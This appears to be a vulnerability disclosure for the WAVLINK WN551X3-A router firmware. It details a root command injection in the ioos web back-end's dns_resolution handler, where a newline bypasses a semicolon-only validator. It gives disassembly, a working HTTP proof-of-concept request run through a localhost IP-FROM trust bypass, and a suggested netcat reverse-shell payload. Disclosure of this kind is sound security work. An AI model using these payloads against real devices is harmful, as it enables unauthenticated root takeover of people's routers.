


# WAVLINK WN551X3-A — OS Command Injection → Root RCE in `ioos` (`dns_resolution`, newline bypass of validator)

| Item | Value |
|---|---|
| Vendor | WAVLINK (`winstar` / Meshlink) |
| Product / Model | WAVLINK WN551X3-A (AX3000), Model `WN551X3` |
| Firmware | `M51X3_V251020-WO-182e965` (file `_WAVLINK_WN551X3-A-M51X3_V251020-WO-182e965.bin`) |
| OS / Arch | OpenWrt-based, ARM aarch64, musl libc |
| Vulnerable component | `/bin/ioos` — WAVLINK CSP web back-end (ELF 64-bit aarch64, stripped, no section headers), running as **root** |
| Vulnerability type | OS Command Injection (CWE-78) |
| Sink | `popen()` after `nslookup %s 2>/dev/null` — `snprintf` @ `0x41a540` |
| Trigger parameter | `data` (HTTP request parameter) |
| Validator bypass | validator `sub_420c80` rejects `;` but **not newline `\n`** (nor `|`) |
| Exploitation precondition | (a) loopback/SSRF to `ioos:81` (**verified**), or (b) a valid session token |

## Overview

The `dns_resolution` handler (`opt=dns_resolution`, `sub_41a430`) performs a DNS lookup test. It reads the user-controlled `data` request parameter, runs it through a validator (`sub_420c80`), then embeds it **unquoted** into a shell command passed to `popen()`:





```
get_param(con, "data")                        ; 0x41a4f4  (HTTP param "data")
validator(data)                                ; 0x41a514  blr [&sub_420c80]  -> rejects ";" only
snprintf(buf, 0x100, "nslookup %s 2>/dev/null", data);   // 0x41a540
popen(buf, "r")                                ; (follows)  — root shell, NO quotes around %s
```

Because `%s` is **unquoted**, any shell metacharacter in `data` that survives the validator breaks out. The validator (`sub_420c80`) only rejects `;` — it lets newline `\n` (and `|`) through. A newline is a command separator in `sh -c`, so:

```
data = 8.8.8.8\n<ARBITRARY_CMD>
```

makes `popen` run `nslookup 8.8.8.8` on the first line and `<ARBITRARY_CMD>` on the next line, with **root** privileges.

This is distinct from the `openvpn_cli_group` / `wireguard_cli_group` injections (single-quote `uci set`): here the sink is unquoted and the vendor *did* add a validator, but the validator is incomplete (misses newline). The inconsistent validation across handlers shows there is no central input-sanitisation layer.

Authentication: the handler checks the login flag at entry (`ldr w0,[x23,#0x64]; cmp #1` @ `0x41a494`). Vector (a) — the dispatcher's localhost trust (`IP-FROM == "127.0.0.1"` sets the login flag, no token) — was verified.

## Vulnerability Details (instruction-level)

```
sub_41a430 (dns_resolution handler):
  0x41a494  ldr w0, [x23, #0x64]   ; login flag
  0x41a49c  cmp w0, #1             ; auth-gated
  ...
  0x41a4f4  add x1, ... ; "data"   ; param name
  0x41a4fc  blr [&get_param]       ; x20 = get_param(con, "data")   <- attacker-controlled
  0x41a510  ldr x1, [&sub_420c80]
  0x41a514  blr x1                 ; validator(data) -> rejects ";" only, returns nonzero for "\n"
  0x41a518  cbz w0, ...            ; (passes for newline)
  ...
  0x41a540  snprintf(buf, 0x100, "nslookup %s 2>/dev/null", data)   ; UNQUOTED
  ...       popen(buf, "r")        ; executes with root privileges
```

ioos parser quirks apply (same as the openvpn/wireguard siblings): URI must contain `?`; spaces as `%20` (not `+`); `IP-FROM` header must precede `Content-Type`.

## Proof of Concept (verified, `uid=0`)

Loopback/SSRF vector (no token), `IP-FROM` precedes `Content-Type`:

```http
POST /index.csp?token=x HTTP/1.1
Host: 127.0.0.1:81
IP-FROM: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=dns_resolution&function=set&data=8.8.8.8%0aid>/tmp/p_dns%0a
```
```json
{ "opt": "dns_resolution", "fname": "sys", "function": "set", "ip": "", "error": 0 }
```
The `%0a` (newline) bypasses the `;`-only validator. Result on the device: `cat /tmp/p_dns` → `uid=0(root) gid=0(root) groups=0(root)`.

Notes:
- `data=8.8.8.8;...` is rejected (`error:10002`) — the validator catches `;`.
- `data=8.8.8.8` (clean) returns `error:0` — confirms the handler reaches the `nslookup`/`popen` path.
- Reverse shell: the handler uses `popen` (not `system`); a `mkfifo`-pipe reverse shell embedded via newline runs but the `popen` file-descriptor setup interferes with the bidirectional fifo, so the connection is flaky under emulation. RCE itself is conclusively proven by the `id`→`uid=0` result; on real hardware a newline-separated reverse shell or a single-command payload (`data=x\nnc LHOST LPORT ...`) is reliable.

## Impact

Full **root** code execution, same as the openvpn/wireguard group injections. The validator gave a false sense of security (it exists but is bypassable), so this sink may be overlooked in code review. Combined with the localhost `IP-FROM` trust it is an unauthenticated (loopback/SSRF) root RCE.

## Reproduction Result

Dynamically verified against the firmware emulated with `qemu-aarch64-static` + `chroot`: the newline-bypass payload executed `id` as `uid=0(root)` through the `dns_resolution` handler via the loopback-bypass vector. The `;`-only validator (`sub_420c80`) was confirmed by testing (`data=...;...` → `error:10002`, `data=...\n...` → `error:0` + command executed).
